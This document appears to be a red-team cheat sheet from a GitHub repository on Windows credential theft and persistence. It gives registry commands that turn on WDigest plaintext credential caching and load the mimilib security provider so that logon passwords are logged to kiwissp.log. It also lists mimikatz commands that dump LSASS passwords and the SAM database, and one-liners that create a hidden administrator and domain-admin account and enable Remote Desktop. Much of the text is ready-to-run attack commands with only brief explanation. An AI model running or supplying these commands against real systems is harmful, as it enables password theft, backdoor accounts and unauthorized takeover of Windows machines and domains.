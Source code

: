 ```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 By Default since window 10 relase.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
# Security Support Provider
Security Support Provider Interface (SSPI) is a Win32 API used by Microsoft Windows systems to perform a variety of security-related operations.
The LSASS process is loading the security support provider DLL’s during Windows startup therefore SSP May Allow an attacker to leverage to persist and stealing plaintest password in the context of affect compromised box.
```
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
type C:\Windows\System32\kiwissp.log


```
![Image of Yaktocat](https://github.com/NyaMeeEain/Infrastructure-Assessment/raw/master/Lateral%20Movement/Images/SSP.PNG)

Upon rebooting the Machine, The users used credentials would be located as  **C:\Windows\System32\kiwissp.log** T**ested against Window updated Version 10.0.19041.388 Build**
![Image of \kiwissp.log](https://github.com/NyaMeeEain/Infrastructure-Assessment/raw/master/Lateral%20Movement/Images/SSP_Log.PNG)
###
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
mimikatz token::elevate lsadump::sam
mimikatz "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
mimikatz "lsadump::sam"
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```
# Rudimentary Mimikatz
A privilege is a right granted to an account to perform privileged operations within the operating system. Mimikatz allows the request of privileges for it’s current process to allow it to perform the tasks it needs.
# Privilege Modules

* **privilege::debug** - SeDebugPrivilege is very powerful,it allows the holder to debug another process, this includes reading and writing to that process' memory.

* **privilege::driver** - SeLoadDriverPrivilege Required to load or unload a device driver. Drivers run in the kernel in ring 0. A user using this privilege must already be able to have write access to HKLM or the code have workaround abusing RID references in HKCU

* **privilege::security** - SeSecurityPrivilege Required to perform a number of security-related functions, such as controlling and viewing audit messages. This privilege identifies its holder as a security operator. User Right:Manage auditing and security log.

* **privilege::tcb** - SeTcbPrivilege This privilege identifies its holder as part of the trusted computer base. Some trusted protected subsystems are granted this privilege, abused for privilege escalation.

* **privilege::backup** - SeBackupPrivilege This privilege causes the system to grant all read access control to any file, regardless of the access control list (ACL) specified for the filee.

* **privilege::restore** - SeRestorePrivilege Required to perform restore operations. Causes the system to grant all write access control to any file on the system, regardless of the files ACL.

* **privilege::sysenv** - SeSystemEnvironmentPrivilege Required to modify the nonvolatile RAM of systems that use this type of memory to store configuration information.User Right: Modify firmware environment values.


# Tokens Modules
Every process or thread created by a user inherits a copy of their token.This token is used by to perform access checks when accessing securable objects or performing privileged actions within the operating system.Impersonation allows for a thread to perform an operationusing an access token from another user or client.
Impersonation tokens are typically used in client/server communication.


* **token::whoami** - Display current identity

* **token::list** - List all or selected tokens of the system

* **token::elevate** - Impersonate a token

* **token::run** - run a program and assign the specified token

The command **token::whoami** will display tokens available to the session

* token::list /user:John
* token::list /domainadmin 
* token::list /enterpriseadmin

# Process Module
The process modules allows for manipulating processes, creating new processes

* **process::list** command will enumerate and list current running processes with basic information.

# Creating a Process
* **process::run** - The command will execute the command and show the output of the command. The command that is ran must exit or it will hang the session
* **process::start** - The command will start the process. The PID of the process will be returned
```
process::run "cmd.exe /c hostname && ipconfig"
process::run "cmd.exe /c net user MeMe 123456!@ /add && net localgroup "Remote Desktop users" MeMe /add && net localgroup Administrators MeMe /add"
process::run "cmd.exe /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
process::run "cmd.exe /c  net user MeMe 123456!@ /add && net group "domain admins" MeMe /add"
```
